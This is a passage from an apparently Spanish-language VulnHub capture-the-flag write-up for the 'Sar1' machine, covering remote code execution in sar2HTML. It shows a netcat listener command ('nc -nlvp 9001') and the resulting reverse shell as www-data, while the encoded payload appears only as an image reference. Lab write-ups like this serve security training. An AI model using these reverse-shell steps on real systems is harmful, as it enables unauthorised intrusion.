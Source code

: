 ![rce](/assets/img/commons/vulnhub/Sar1/rce.png){: .center-image }

Nos ponemos en escucha y nos generamos la reverse shell, url encodeada.

![rs](/assets/img/commons/vulnhub/Sar1/rs.png){: .center-image }

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.36] 58120
bash: cannot set terminal process group (824): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sar:/var/www/html/sar2HTML$
```
